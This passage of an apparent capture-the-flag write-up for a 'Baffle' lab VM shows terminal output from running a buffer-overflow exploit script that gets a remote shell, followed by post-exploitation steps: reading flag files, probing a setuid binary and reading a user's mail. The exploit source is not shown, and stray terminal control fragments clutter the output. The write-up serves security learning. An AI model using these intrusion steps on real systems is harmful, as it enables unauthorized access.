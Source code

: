 Not surprise, I got a shell.
```
root@AIRBUS# python exploit_baffle_bufferOverflow.py 
$<5>[$<2>+] Opening connection to 192.168.159.133 on port 6969: Done
[$<2>*] Switching to interactive mode
$<2>$ $<5>id
$<5>uid=1001(alice) gid=1001(alice) groups=1001(alice)
$<2>$ $<2>
```
Flag was easy to find.
```
$<2>$ $<5>dir
$<5>bin   etc    initrd.img  lost+found    opt   run   sys  var
boot  flag.txt    lib        media    proc  sbin  tmp  vmlinuz
dev   home    lib64        mnt        root  srv   usr
$<2>$ $<5>cat flag.txt
$<5>FLAG{is_there_an_ivana_tinkle}
$<2>$ $<2>
```
### 2nd FLAG.
```
FLAG{is_there_an_ivana_tinkle}
```
## Find more flags
After traverse into the target I found
```
$<2>$ $<5>pwd
$<5>/home/bob/filez
$<2>$ $<5>ls -al
$<5>total 24
drwxr-xr-x 2 charlie charlie 4096 Oct 25 04:07 .
drwxr-xr-x 5 bob     bob     4096 Oct 25 04:21 ..
-r--r----- 1 charlie charlie   50 Oct 25 03:51 auth.txt
-r--r----- 1 charlie charlie   29 Oct 23 08:06 flag.txt
-rwsr-xr-x 1 charlie charlie 6856 Oct 25 03:45 flag_vault
$<2>$ $<5>./flag_vault
$<5>______ _                _    _   _             _ _   
|  ___| |            /\| |/\| | | |           | | |  
| |_  | | __ _  __ _ \ ` ' /| | | | __ _ _   _| | |_ 
|  _| | |/ _` |/ _` |_     _| | | |/ _` | | | | | __|
| |   | | (_| | (_| |/ , . \\ \_/ / (_| | |_| | | |_ 
\_|   |_|\__,_|\__, |\/|_|\/ \___/ \__,_|\__,_|_|\__|
                __/ |                                
               |___/                                 
$<5>
ENTER YOUR AUTHENTICATION CODE: $<2>$ $<5>password
$<5>CHECKING CODE$<5>N$<5>
$<2>$ $<5>
```

It's luck, I found email from bob@baffle.me sent to alice
```
$<2>$ $<5>mail
$<5>Mail version 8.1.2 01/15/2001.  Type ? for help.
"/var/mail/alice": 1 message 1 new
>N  1 bob@baffle.me      Thu Jan  2 11:38   21/559   Flag #2
$<2>$ $<5>cat /var/mail/alice
$<5>From bob@baffle.me  Thu Jan  2 11:38:22 2014
Return-Path: <root@baffle.me>
X-Original-To: alice
Delivered-To: alice@baffle.me
Received: by baffle.me (Postfix, from userid 0)
        id B612F2C0E36; Thu,  2 Jan 2014 11:38:22 -0800 (PST)
From: Bob <bob@baffle.me>
```